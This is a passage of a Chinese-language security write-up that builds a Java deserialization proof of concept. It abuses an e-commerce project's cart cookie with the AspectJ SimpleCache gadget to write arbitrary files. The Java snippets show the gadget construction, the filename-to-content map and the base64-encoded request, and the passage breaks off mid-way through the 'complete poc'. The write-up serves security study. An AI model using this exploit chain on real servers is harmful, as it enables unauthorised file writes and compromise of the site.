 然后调用writeToPath方法

[![](https://p0.ssl.qhimg.com/t01992e05a53c3b8dea.png)](https://p0.ssl.qhimg.com/t01992e05a53c3b8dea.png)

文件内容和文件里面的值我们都可以控制，所以可以成功写入文件。



## 构造poc

因为前文件说了控制的参数需要是cart类，不能反序列化的所以要报错。所以我们直接在项目domain/cart里面构造。

首先我们让cookie序列化之后的cart类的SkuDescribe首先为我们的恶意类SimpleCache，并且类型为一个map。这样需要注意一下不然构造poc的时候报错。

[![](https://p0.ssl.qhimg.com/t01e2da6a4f7ef9c7ee.png)](https://p0.ssl.qhimg.com/t01e2da6a4f7ef9c7ee.png)

这里我们可以利用一部分yso里面的poc。然后直接给setSkuDescribe进去一个恶意的对象simpleCache，这里需要注意一下因为SimpleCache类的内部类StoreableCachingMap属性是private的要报错，解决的方法是在当前项目目录下建立一样的类并且修改内部类StoreableCachingMap的属性为public。

[![](https://p0.ssl.qhimg.com/t014d453b1abc56a3a3.png)](https://p0.ssl.qhimg.com/t014d453b1abc56a3a3.png)

```
Constructor ctor = Reflections.getFirstCtor("org.aspectj.weaver.tools.cache.SimpleCache$StoreableCachingMap");
Object simpleCache = ctor.newInstance(".", 12);//获得obj
```

直接set进去要报错因为数据类型不匹配，也正是我前面说的SkuDescribe类型是map，然后我们就封装成map就欧克。

[![](https://p3.ssl.qhimg.com/t018f981956ce89e7a8.png)](https://p3.ssl.qhimg.com/t018f981956ce89e7a8.png)

```
cart.setSkuDescribe((Map&lt;String, Object&gt;) simpleCache);
```

然后我们cookie参数获得构造好了，之后在构造我们的get数据写入文件。

[![](https://p5.ssl.qhimg.com/t01b3223a1738c8e13f.png)](https://p5.ssl.qhimg.com/t01b3223a1738c8e13f.png)

我们还是直接setSkuDescribe一个Map进去，map的key为文件名value为文件内容。

```
Map map = new HashMap();
String filepath = "1.txt";
String data = readFile(filepath);//自己写了一个读文件的函数
map.put("2.txt",data.getBytes(StandardCharsets.UTF_8));//编码
cart.setSkuDescribe(map);
```

然后一起将get和cookie的值进行base64编码发送就欧克就能成功写入文件。

### <a class="reference-link" name="%E5%AE%8C%E6%95%B4%E7%9A%84poc"></a>完整的poc

```
public static String readFile(String filePath) throws Exception`{`
    // 根据path路径实例化一个输入流的对象
    FileInputStream  fis = new FileInputStream(filePath);
    //2. 返回这个输入流中可以被读的剩下的bytes字节的估计值；
    int size = fis.available();
    System.out.println(size);
    //3. 根据输入流中的字节数创建byte数组；
    byte[] array = new byte[size];
    //4.把数据读取到数组中；
    fis.read(array);
    //5.根据获取到的Byte数组新建一个字符串，然后输出；
    String result = new String(array);
    result = result.replaceAll("\r|\n", "");
```